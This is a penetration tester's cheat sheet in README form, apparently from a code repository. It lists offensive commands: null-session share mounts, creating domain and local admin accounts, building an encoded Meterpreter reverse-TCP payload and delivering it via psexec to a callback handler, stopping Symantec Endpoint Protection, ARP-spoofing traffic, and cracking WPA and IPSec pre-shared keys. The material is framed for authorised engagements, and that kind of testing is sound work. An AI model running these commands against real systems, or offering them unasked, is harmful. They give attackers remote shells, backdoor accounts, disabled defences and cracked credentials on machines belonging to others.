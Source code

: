 Pentesting Cheat Sheet
======================
These are various tips and tricks I have found useful on my pentest engagements. Most of these can be found using Google but I decided to put them in a central location to make them easily accessible. Hope they are as helpful to you as they are to me.

Mounting Shares
---------------
To mount an SMB share using a null session do one of the following depending on
the OS you are using.
```Windows> net use x: \\server\share "" /u:
Linux> mount -t cifs //server/share -o username=,password= /mnt/point```

To mount an NFS share on Linux use.
`mount -t nfs server:/share /mnt/point`


Administrative Accounts
-----------------------
Add a new Windows domain admin account.
```net user username password /ADD /DOMAIN
net group "Domain Admins" username /ADD /DOMAIN```

Add a new Windows local admin account.
```net user username password /ADD
net localgroup Administrators username /ADD```

Add a new linux account and put them in the wheel group.
`useradd -G wheel username && echo "username:newpass"|chpasswd`


Meterpreter Shell Error
-----------------------
If you get the error, "stdapi_sys_process_execute: Operation failed: 1314",
while trying to drop to as shell in meterpreter, try the code below. This is
a known bug in meterpreter.

`execute -f cmd.exe -c -i -H`

Metasploit: Custom Psexec Executable
------------------------------------

```# Generate an executable
msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=4445 R | msfencode -t exe -e x86/shikata_ga_nai -c 5 > custom.exe

# Setup multi/handler
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.0.1
LHOST => 192.168.0.1
msf exploit(handler) > set LPORT 4445
LPORT => 4445
[*] Started reverse handler on 192.168.0.1:4445
[*] Starting the payload handler...

# In another msfconsole setup psexec
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.0.2
RHOST => 192.168.0.2
msf exploit(psexec) > set SMBUser user
SMBUser => user
msf exploit(psexec) > set SMBPass pass
SMBPass => pass
msf exploit(psexec) > set EXE::Custom /path/to/custom.exe
EXE::Custom => /path/to/custom.exe
msf exploit(psexec) > exploit

# If everything works then you should see a meterpreter 
# session open in multi/handler
```

Disable Antivirus
-----------------
This command will disable Symantec Endpoint Protection. I find it useful when
I have a basic shell on a box and want to upgrade to Meterpreter but Symantec
stops me.

`c:\program files\symantec\symantec endpoint protection\smc -stop`

Use Ettercap to Sniff Traffic
-----------------------------
`ettercap -M arp -T -q -i interface /spoof_ip/ /target_ips/ -w output_file.pcap`

Cracking WPA/WPA2 PSK
---------------------
Use JtR to generate candidate passwords for aircrack-ng
`john --incremental:all --stdout | aircrack-ng --bssid 00-00-00-00-00-00 -a 2 -w - capture_file.cap`

Use Hashcat to generate candidate passwords for aircrack-ng
`./hashcat-cli32.bin wordlist -r rules/d3ad0ne.rule --stdout | aircrack-ng --bssid 00-00-00-00-00-00 -a 2 -w - capture_file.cap`

Cracking IPSec Agressive Mode Pre-Shared Key
--------------------------------------------
If you’ve never done this, read these first.
http://www.nta-monitor.com/wiki/index.php/Ike-scan_User_Guide
http://carnal0wnage.attackresearch.com/2011/12/aggressive-mode-vpn-ike-scan-psk-crack.html

To find aggressive mode VPNS use ike-scan.
`ike-scan -A 192.168.1.0/24`

If the default transforms don't work use the generate_transforms.sh script from the user guide above.
`generate-transforms.sh | xargs --max-lines=8 ike-scan 10.0.0.0/24`

If you find a SonicWALL VPN using agressive mode it will require a group id, the default group id is GroupVPN
`ike-scan 192.168.1.1 -A -id GroupVPN`

Use the -P argument to save the handshake to a file, which can be used by psk-crack.
`ike-scan 192.168.1.1 -A -Ppsk_192.168.1.1.txt`

Use a dictionary to crack the pre-shared key.
`psk-crack -d /path/to/dictionary psk_192.168.1.1.txt`

Create an IP List with Nmap
---------------------------
nmap -sL -n 192.168.1.1-100,102-254 | grep "report for" | cut -d " " -f 5 > ip_list_192.168.1.txt

Crack Passwords with John and Korelogic Rules
---------------------------------------------
for ruleset in `grep KoreLogicRules john.conf | cut -d: -f 2 | cut -d\] -f 1`; do ./john --rules:${ruleset} 
-w:<wordlist> <password_file> ; done
